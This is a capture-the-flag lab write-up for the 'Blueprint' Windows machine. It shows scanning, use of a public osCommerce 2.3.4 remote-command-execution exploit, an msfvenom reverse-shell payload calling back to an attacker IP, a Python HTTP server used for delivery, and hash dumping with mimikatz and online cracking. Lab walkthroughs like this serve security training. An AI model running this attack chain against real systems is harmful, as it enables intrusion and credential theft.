





# Blueprint
## Scanning and Enumeration
### Nmap


- **Apache:**
  - 80: 404
  - 443/8080 Open

- **Smb**

### Web


Let's look online for an exploit!

## Exploitation

https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution



RCE doesn't allow us to move and use normal commands. Now we have to get better shell.

## Post-Exploitation

Let's create a payload to get normal shell access with `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.39.178 LPORT=8888 -f exe > shell-x86.exe
```

We open a port and get the file from the RCE shell.

Host:

```bash
python3 -m http.server 8000
```

Victim:



Now we listen to port `8888` on host and execute `shell-x86.exe` from the RCE shell.



And we are Administrator already.

### Finding hashes
To get the hashes of the pc we can use tools like `mimikatz` or `fpdump`. We can get both files to the victim using the same `certutil` command as before.

Execute `mimikatz` and we get the hashes:



And we crack the MD5 hashes (I use [HackStation](https://crackstation.net/)).